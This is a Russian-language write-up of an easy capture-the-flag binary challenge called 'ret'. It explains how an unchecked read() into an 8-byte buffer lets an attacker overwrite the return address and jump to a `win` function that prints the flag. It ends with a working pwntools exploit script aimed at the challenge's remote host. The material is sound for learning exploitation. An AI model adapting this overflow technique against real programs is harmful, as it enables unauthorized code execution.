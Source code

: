 # Сайт: forkbomb.ru 
# Автор: @korniltsev (Anatoly Korniltsev)
# Название: ret
# Сложность: Easy

В предыдущих заданиях мы уже имели дело с перетиранием переменных, теперь же нам предстоит затереть адрес возврата. Адрес возврата это адрес инструкции на которую вернется программа после выполнения инструкции `call`. Приступим к решению.


#### Решение: 

В программе всего три функции: `main`, `win` и `play`:

![image](https://github.com/user-attachments/assets/06a7640b-0680-4d5d-beef-12b2132f2d02) <br />


`play` вызывается внутри функции `main`. Посмотрим на содержимое этой функции: <br />

![image](https://github.com/user-attachments/assets/e43d4d3c-995f-4838-af33-3c7aec6d3788) <br />

Здесь мы видим функцию, которая просто считывает `buf` длиной 8 байт с помощью небезопасной фнукции `read()`. 
Все это создает хорошие условия для переполнения буфера и изменения адреса возврата на нужный. Теперь посмотрим, что делает 
функция `win`: <br />
![image](https://github.com/user-attachments/assets/18956d69-e589-4c73-887a-6023e24e1daf) <br />

Функция `win` просто открывает файл с флагом и выводит его содержимое на экран. Посмотрим адрес функции `win` для его дальнейшего использования в 
скрипте, который переполнит буфер и перейдет на нужную функцию: <br />

![image](https://github.com/user-attachments/assets/76d6298f-a3c0-4fa2-921c-f00c538f401a) <br />

Это адрес `0x401162`. Теперь пишем скрипт: <br />

```py
from pwn import * 

p = remote('109.233.56.90', 11605)
p.sendline(b"AAAAAAAAAAAAAAAA" + p64(0x401162))
p.interactive()
```







